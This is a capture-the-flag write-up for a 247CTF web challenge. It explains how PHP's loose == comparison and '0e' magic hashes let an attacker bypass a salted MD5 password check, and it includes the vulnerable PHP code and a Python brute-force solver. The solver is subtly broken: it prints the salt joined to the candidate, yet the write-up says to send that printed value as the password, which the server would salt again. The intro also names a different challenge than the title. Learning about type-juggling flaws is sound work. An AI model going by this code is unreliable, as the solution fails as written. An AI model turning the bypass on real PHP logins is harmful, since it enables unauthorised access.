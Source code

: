 # COMPARE THE PAIR (Web)

## Intro
This is my write-up for the Web challenge "Secured Session" on the CTF site 247CTF.com.

## Challenge Details
The challenge involves guessing a way to bypass the login logic with something about md5.

## Steps to Solve

### 1. Access the Application
Start by accessing the web application provided for the challenge.

### 2. Analyze the Provided PHP Code

php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>


The code takes the $salt and concatenates it with our $password input, then md5 hashes it to compare with the $password_hash.

We have no information about what the password might be, and brute-forcing it could take a long time.

The vulnerability occurs in the == comparison.

### 3. Understanding the Vulnerability

In PHP, the comparison operator == is used to compare two values for equality. It checks if the values are equal after performing type juggling, which means PHP will try to convert the values to a common type before making the comparison.

#### Key Points About == in PHP:

1. **Type Juggling**: PHP automatically converts the data types of the operands to a common type when using ==. For example:

   
php
   if (5 == "5") {
       echo "Equal";
   }

   In this case, "5" (a string) is converted to an integer, so the comparison 5 == "5" returns true.

2. **Loose Comparison**: Because of type juggling, == is known as a "loose comparison." For example:

   
php
   if (0 == false) {
       echo "Equal";
   }

   Here, 0 is considered equivalent to false, so the comparison returns true.

3. **Common Pitfalls**:
   - Comparing different types can lead to unexpected results:

     
php
     if ("0" == false) {
         echo "Equal";
     }

     The string "0" is treated as false when loosely compared, so this would also return true.

Also, we can see that the format of the $password_hash looks like a very large number starting with 0e....

When you compare a string like 0e1234 to other values using ==, PHP treats 0e1234 as a number, specifically the number 0. This can lead to surprising results:

php
if ("0e1234" == 0) {
    echo "Equal";
} else {
    echo "Not Equal";
}


**Output**: "Equal"

### 4. Exploiting the Vulnerability

The vulnerability is clear now: all we have to do is find a password that, when concatenated with $salt, its md5 hash generates a string that looks like a large number (starts with 0e and the rest are numbers).

I didn't know how to create the code that could help us, but I found a code in another write-up:

python
from itertools import product  # Import the product function from itertools to generate combinations
import hashlib  # Import the hashlib module for generating MD5 hashes

# Iterate through different lengths of the combination
for x in range(0, 10):  # Loop over lengths from 0 to 9 (inclusive)
    # Generate all possible combinations of the alphabet with the current length 'x'
    for combo in product("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", repeat=x):
        # Create the string to hash by appending the current combination to the fixed string
        result = hashlib.md5(("f789bbc328a3d1a3" + ''.join(combo)).encode()).hexdigest()

        # Check if the resulting hash has the desired properties
        if result.startswith("0e") and result[2:].isdigit():  # Look for a hash that starts with '0e' and is followed only by digits
            # If a matching hash is found, print the string that generated it
            print("f789bbc328a3d1a3" + ''.join(combo))
        else:
            pass  # If the hash doesn't match the criteria, do nothing and continue


Any result we get, we send it to the server with ?password=xxxxxx. Finally, we get the flag!



### Resources 
https://www.php.net/manual/en/language.types.type-juggling.php
https://github.com/abhaynayar/obsidian/blob/master/labs/web/247ctf.md
